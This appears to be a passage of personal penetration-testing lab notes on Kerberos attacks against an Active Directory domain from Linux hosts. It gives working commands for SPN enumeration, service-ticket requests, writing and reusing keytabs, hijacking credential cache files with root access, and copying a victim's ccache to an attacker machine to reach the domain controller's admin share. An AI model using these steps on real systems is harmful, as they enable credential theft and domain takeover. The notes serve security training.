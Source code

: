 #AD 
We can list now the SPN using kerberos auth:
```bash
ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName
```

We can request the Service ticket with kvno:
#AD #kerberos 
```
kvno MSSQLSvc/dc01.corp1.com:1433
klist
```

#### Stealing keytabs

Automated scripts access the domain resource on behalf of the identity using the keytab files. Those are permistant form of kerberos access. If we cna steal the keytab we have the same permissions as compromising the password. Cronscripts use the keytabs.
#creds-leak #AD #kerberos
To save the keytab to file we can:
```bash
ktutil
addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac
wkt /tmp/administrator.keytab
quit
```

Then, if you are able to compromise the root, you can do:
#kerberos #AD #smb
```bash
kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
# to renew
kinit -R
# now we can use the kerberos:
smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$/
```

#### Credentials cache files

If we got sudo or root, we can copy somone Ccache file and use it as our own.
#kerberos #creds-leak 
```bash
# copy first then set the env variable:
kdestroy
export KRB5CCNAME=/tmp/krb5cc_0
klist
```

#### Kerberos with Impacket
#impacket  #kerberos #creds-leak 
We steal CC file to our kali instance:
```bash
scp root@linuxvictim:/tmp/krb5cc_0 /tmp/krb5cc_minenow
export KRB5CCNAME=/tmp/krb5cc_minenow
# install krb5-user
sudo apt-get install krb5-user
# configure to corp1.com
# add corp1.com entries to the /etc/hosts
```
